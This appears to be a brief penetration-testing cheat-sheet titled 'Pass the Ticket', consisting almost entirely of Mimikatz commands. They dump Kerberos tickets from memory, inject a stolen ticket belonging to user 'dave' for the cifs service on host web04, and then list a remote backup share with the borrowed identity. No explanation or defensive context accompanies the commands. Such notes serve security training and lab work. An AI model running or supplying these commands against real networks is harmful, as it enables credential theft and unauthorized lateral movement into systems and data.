 # Pass the Ticket

```
privilege::debug
sekurlsa::tickets /export
```

```
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```

```
klist
ls \\web04\backup
```

